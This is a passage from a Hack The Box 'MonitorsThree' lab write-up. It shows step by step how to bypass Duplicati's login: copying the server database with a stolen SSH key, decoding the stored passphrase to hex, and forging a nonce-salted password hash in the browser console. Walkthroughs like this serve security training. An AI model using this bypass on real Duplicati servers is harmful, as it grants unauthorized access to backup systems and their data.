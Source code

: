 ![Duplicati login page](/images/HTB-MonitorsThree/duplicati_login.png)

Researching `duplicati vulnerability` we find a medium article [here](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) demonstrating an authentication bypass and a Github issue page also details the steps to reproduce the exploit [here](https://github.com/duplicati/duplicati/issues/5197).

![Exploit steps](/images/HTB-MonitorsThree/exploit_steps.png)

Going back to our linpeas output, we see that there is a Duplicati directory in `/opt`.

![Duplicati opt directory](/images/HTB-MonitorsThree/duplicati_opt_directory.png)

We find `Duplicati-server.sqlite` in `/opt/duplicati/config`.

![Duplicati database file](/images/HTB-MonitorsThree/duplicati_db_file.png)

With `scp` we download the database file, it contains the server passphrase.

```
scp -i id_rsa marcus@monitorsthree.htb:/opt/duplicati/config/Duplicati-server.sqlite /home/kscorpio/Machines/HTB/MonitorsThree
```

![Duplicati server passphrase](/images/HTB-MonitorsThree/server-passphrase.png)

Next we convert the server passphrase in HEX.

```
echo "Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=" | base64 -d | xxd -p
```

![server passphrase HEX conversion](/images/HTB-MonitorsThree/HEX_conversion.png)

```
59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a
```

With Burp we intercept a login request and make note of the session nonce. This value will be different for each login request. Make sure you URL-decode the session-nonce value.

![Duplicati login request](/images/HTB-MonitorsThree/duplicati_login_request.png)


Open the console in the browser on the Duplicati login page and use the command below.

```
var noncepwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('url_decoded_nonce_value') + 'salted_hex_passphrase')).toString(CryptoJS.enc.Base64);
```

Then run `noncepwd` to get the new password value.

```
noncepwd
```

![Duplicati auth bypass](/images/HTB-MonitorsThree/duplicati_auth_bypass.png)

